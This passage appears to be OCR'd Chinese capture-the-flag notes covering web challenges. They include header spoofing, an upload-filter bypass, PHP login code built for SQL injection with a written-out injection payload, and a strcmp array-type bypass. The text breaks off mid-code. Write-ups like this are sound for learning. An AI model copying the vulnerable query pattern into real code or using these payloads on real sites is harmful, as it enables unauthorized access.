 ````
###伪装者
改 X-Forwarded-For 为127.0.0.1

###Header
flag在返回包头里

###上传绕过
随便上传一个文件说要php结尾的文件
上传php文件告诉只能上传jpg,gif,png后缀的文件


###SQL注入1
关键代码
```php
$user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
```
 绕过代码 `admin''') or 1=1 #--`
select user from ctf where (user='"admin''') or 1=1 #--"') and (pw='".$pass."')" 

###pass check
核心源码
```php
<?php
$pass=@$_POST['pass'];
$pass1=*;//被隐藏起来的密码
if(isset($pass))
{
if(@!strcmp($pass,$pass1)){
echo "flag:nctf{*}";
}else{
echo "the pass is wrong!";
}
}else{
echo "please input pass!";
}
?>
```
抓包改pass的值 等于 pass[] = 1
strcmp函数为NULL，if 值为真

###起名字真难
源码
```
<?php
function noother_says_correct($number)
{
$one = ord('1');
$nine = ord('9');
for ($i = 0; $i < strlen($number); $i++)
{
$digit = ord($number{$i});
if ( ($digit >= $one) && ($digit <= $nine) )
{
return false;
````